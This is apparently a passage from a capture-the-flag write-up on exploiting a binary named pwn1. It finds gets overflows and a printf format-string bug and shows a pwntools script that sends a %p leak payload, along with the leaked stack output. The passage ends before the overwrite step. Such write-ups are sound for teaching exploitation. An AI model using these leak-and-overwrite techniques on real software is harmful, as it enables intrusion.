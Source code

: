The lack of a stack canary opens up the potential for stack smashing combined with the vulnerable `gets` function, but PIE enabled means that we need to find a memory leak in order to perform a "ret2win" attack.

Taking a look at the code three vulnerabilities immediately jump out at me.

1. Stack buffer overflow with `gets(read_buf);` in the `welcome()` function.
2. Format string vulnerability with `printf(read_buf)`.
3. Stack buffer overflow with `gets(read_buf);` in the `AAAAAAAA()` function.

Keeping these vulnerabilities in mind I came up with the following plan.

1. Leak an important memory address by passing a bunch of %p's to `printf`.
2. Use the leaked address to calculate the address of `WINgardium_leviosa`
3. Overwrite return address in the stack and ret2win.

## Writing the Actual Exploit.

I started by writing a simple Python script for local debugging:

```python
from pwn import *
import sys

e = context.binary = ELF("./pwn1")
main_offset = e.symbols['main']

if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
    io = process("./pwn1")
else:
    io = remote("example-url.cscg.live", 1337, ssl=True)
# use the attached format string reading if you don't understand what's going on here
payload = b"%p|"*50
io.sendline(payload)
pause() # attach debugger of choice here
io.interactive()
```

After attaching `lldb` to the process, I set a breakpoint at main to find its location in memory:

```
Breakpoint 1: where = pwn1`main, address = 0x0000555643e00af4
```

Taking a look at the output I spotted the exact same address in the stack 5 spots from the 50th making it the 45th pointer:

```
0x1|0x1|0x7f1ec3fad887|0x4b|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|
0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|
0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|
0x257c70257c70257c|0x7c70257c70257c70|0x7c70257c7025|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|(nil)|0x7ffd00000000|
(nil)|0x5f91161c87dde300|(nil)|0x555643e009e9|0x7ffd7c64f7c0|0x555643e00b21|0x7ffd7c64f8d8|0x100000000|0x1|
0x7f1ec3ec2d90|(nil)|0x555643e00af4|0x100000000|0x7ffd7c64f8d8|(nil)|0xb267089d052cd1b4|0x7ffd7c64f8d8|
```

